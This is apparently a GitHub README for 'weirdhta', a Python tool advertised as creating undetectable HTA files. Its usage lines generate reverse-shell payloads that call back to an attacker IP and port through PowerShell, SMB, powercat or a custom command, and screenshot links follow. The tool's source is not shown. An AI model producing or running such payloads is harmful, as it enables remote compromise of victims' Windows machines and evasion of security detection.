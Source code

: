 # weirdhta
A Python-based basic tool for creating undetectable hta file.


```
python3 --help
python3 weirdhta.py 10.10.10.10 4444 --normal (for normal powershell reverse_shell)
python3 weirdhta.py 10.10.10.10 4444 --smb (without powershell payload, it will use smb)
python3 weirdhta.py 10.10.10.10 4444 --powercat (for powercat)
python3 weirdhta.py 10.10.10.10 4444 --command 'c:\windows\system32\cmd.exe' (custom command)

```

### Screenshots
Running via browser:


![Script Image](https://i.imgur.com/mb8xvCq.png)

![Script Image](https://i.imgur.com/LCo3Ivb.png)

![Script Image](https://i.imgur.com/5DtxvKi.png)


Running via cli:

![](https://i.imgur.com/xYfALz2.gif)

smb:

![Script Image](https://i.imgur.com/UVgKzpo.png)
![](https://i.imgur.com/4orNAgX.gif)
